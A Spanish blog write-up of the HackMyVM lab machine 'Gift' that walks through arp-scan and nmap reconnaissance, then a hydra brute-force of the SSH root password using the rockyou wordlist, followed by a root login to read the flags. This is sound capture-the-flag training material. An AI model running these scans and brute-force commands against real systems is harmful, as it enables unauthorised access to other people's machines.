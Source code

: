 ```yaml
---
title:      "Gift"
excerpt:    "Comenzamos el blog resolviendo la primera máquina easy subida a la plataforma de HackMyVM. El creador nos indica en la descripción que es very easy, un regalo, lo comprobaremos... 😁"
toc:        true
toc_label:  "Tabla de contenidos"
toc_icon:   "key"
header:
  teaser: /assets/images/gift/prev.png
  teaser_home_page: true
  icon: /assets/images/HMV.png
classes     : wide
categories:
  - HackMyVM
tags:  
  - Easy
  - Linux
  - Brute force
---
```


![](/assets/images/gift/prev.png){: .align-center}

Comenzamos el blog resolviendo la primera máquina easy subida a la plataforma de HackMyVM. El creador nos indica en la descripción que es "very easy", un "regalo", lo comprobaremos... 😁


## Reconocimiento de Puertos

Comenzamos averiguando la IP de la máquina víctima:

`❯ sudo arp-scan -l | grep "PCS"`
~~~
192.168.0.25   08:00:27:c7:3f:a9 PCS Systemtechnik GmbH
~~~

Ahora realizamos el reconocimiento de puertos abiertos:

`❯ sudo nmap -p- -sS --min-rate 5000 --open -Pn -vvv -n 192.168.0.25`
~~~
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
~~~

Tenemos dos puertos abiertos, el puerto 22 (SSH) y el puerto 80 (HTTP).

Realizamos un escaneo más avanzado para obtener más información sobre estos puertos.

`❯ nmap -sCV -p22,80 192.168.0.25`
~~~
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.3 (protocol 2.0)
| ssh-hostkey: 
|   3072 2c:1b:36:27:e5:4c:52:7b:3e:10:94:41:39:ef:b2:95 (RSA)
|   256 93:c1:1e:32:24:0e:34:d9:02:0e:ff:c3:9c:59:9b:dd (ECDSA)
|_  256 81:ab:36:ec:b1:2b:5c:d2:86:55:12:0c:51:00:27:d7 (ED25519)
80/tcp open  http    nginx
|_http-title: Site doesn't have a title (text/html).
~~~

Comprobamos qué contenido muestra el puerto 80:

`❯ curl -L http://192.168.0.25`
~~~
Dont Overthink. Really, Its simple.
   <!-- Trust me -->
~~~

> No parece ir la cosa por ahí, así que según esa pista trataremos de seguir por el otro puerto, SSH


## Fuerza bruta

Aplicaremos fuerza bruta sobre el usuario root por SSH:

`❯ hydra -l root 192.168.0.25 -P /usr/share/wordlists/rockyou.txt ssh`
~~~
[STATUS] 178.00 tries/min, 178 tries in 00:01h, 14344223 to do in 1343:06h, 16 active
 [22][ssh] host: 192.168.0.25   login: root   password: simple
~~~

> BINGO, tenemos acceso vía SSH como root


`ssh root@192.168.0.25`

~~~
IM AN SSH SERVER
gift:~# ls
root.txt  user.txt
~~~

Y ahí tenemos las 2 flags, con las que concluimos esta primera máquina.

